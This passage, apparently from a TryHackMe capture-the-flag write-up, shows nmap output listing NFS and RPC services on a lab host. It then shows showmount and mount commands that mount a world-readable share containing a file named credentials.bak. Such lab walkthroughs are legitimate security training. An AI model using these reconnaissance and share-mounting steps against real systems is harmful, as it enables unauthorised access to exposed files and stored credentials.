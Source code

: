 ```sh
|   100005  1,2,3      56611/udp   mountd
|   100005  1,2,3      58043/tcp6  mountd
|   100021  1,3,4      35143/tcp6  nlockmgr
|   100021  1,3,4      39551/tcp   nlockmgr
|   100021  1,3,4      51308/udp   nlockmgr
|   100021  1,3,4      60410/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
8080/tcp  open  http     Werkzeug httpd 0.14.1 (Python 3.6.9)
|_http-title: CCHQ
37795/tcp open  mountd   1-3 (RPC #100005)
39551/tcp open  nlockmgr 1-4 (RPC #100021)
39925/tcp open  mountd   1-3 (RPC #100005)
40145/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

___
## NFS
Checking to see if there are any mountable shares on the target and we see the general share is mountable.

```sh
┌──(viorage㉿kali)-[~/Tryhackme/Demo]
└─$ showmount -e 10.10.30.23                                                              
Export list for 10.10.30.23:
/var/nfs/general *
```

### Mounting the general share
Making a directory to mount the general share to and mounting.

```sh
┌──(viorage㉿kali)-[~/Tryhackme/Demo]
└─$ sudo mount -t nfs 10.10.30.23:/var/nfs/general mnt                                                                                                                                                                     
┌──(viorage㉿kali)-[~/Tryhackme/Demo]
└─$ cd mnt 
                                                                                                                          
┌──(viorage㉿kali)-[~/Tryhackme/Demo/mnt]
└─$ ls -la
total 12
drwxr-xr-x 2 nobody  nogroup 4096 Nov 21  2020 .
drwxr-xr-x 3 viorage viorage 4096 Apr 14 15:02 ..
-rw-r--r-- 1 root    root      31 Nov 21  2020 credentials.bak
```
